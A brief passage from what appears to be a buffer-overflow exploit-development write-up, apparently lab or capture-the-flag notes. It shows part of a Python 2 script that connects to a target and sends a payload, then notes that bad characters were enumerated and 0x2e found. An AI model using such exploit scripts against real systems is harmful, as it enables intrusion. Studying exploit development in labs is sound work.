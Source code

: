 ```python
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	connect=s.connect((ip,port))
	s.recv(1024)
	s.send(payload)
	s.close()
except:
        print "\nCould not connect!"
```

Enumerated all bad chars:

![Identified the first bad-char (0x2e)](../../zzz_res/attachments/Pasted_image_20210502181446.png)
